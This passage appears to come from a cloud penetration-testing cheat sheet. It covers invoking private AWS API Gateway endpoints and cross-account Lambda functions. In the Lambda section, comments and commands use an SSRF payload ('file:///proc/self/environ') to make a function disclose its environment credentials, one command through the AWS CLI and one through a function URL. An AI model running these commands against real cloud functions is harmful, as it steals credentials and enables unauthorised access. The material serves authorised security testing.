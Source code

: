 ```bash
    --service-name com.amazonaws.$region.execute-api \
    --subnet-ids subnet-example1234567,subnet-example1234567,subnet-example1234567 \
    --security-group-ids sg-example1234567 \
    --private-dns-enabled

# Connect to the instance
aws ec2-instance-connect ssh --os-user root --instance-id $instance_id
```

```bash
# Now we should be able to resolve and invoke the private API Gateway
# Check DNS resolution
nslookup $api_id.execute-api.$region.amazonaws.com

# Invoke the API
curl https://$api_id.execute-api.$region.amazonaws.com/$stage/$endpoint
```

*Delete the instance and the VPC Endpoint when you're done. VPC Endpoints can get expensive.*

### Lambda Functions

```bash
function_name=example-function
# Invoke function via AWS CLI
# Because the function is from an external account, the
# whole ARN must be specified
# You can invoke a certain version of the function by adding its number at the end
# e.g. arn:aws:lambda:$region:123456789012:function:$function_name:1
aws lambda invoke --function-name arn:aws:lambda:$region:123456789012:function:$function_name \
    --payload '<input>'

# If the function is vulnerable to SSRF you might
# be able to exfiltrate the access credentials by reading
# the contents of /proc/self/environ
# For this you need to specify --cli-binary-format
# This is can be used as a persistence technique
aws lambda invoke --function-name arn:aws:lambda:$region:123456789012:function:$function_name \
    --payload '{"queryStringParameters":{"url":"file:///proc/self/environ"}}' \                                               
    --cli-binary-format raw-in-base64-out output.txt

# Invoke the function by its URL
# Just because the Lambda Function can be invoked
# by anyone, doesn't mean it will have a public URL
# There is no known way to reverse the function URL
# to get the function ARN or vice-versa
curl https://examplexample12345678901234567890exa.lambda-url.$region.on.aws/?url=file:///proc/self/environ > output.txt
```

### ECR Repositories
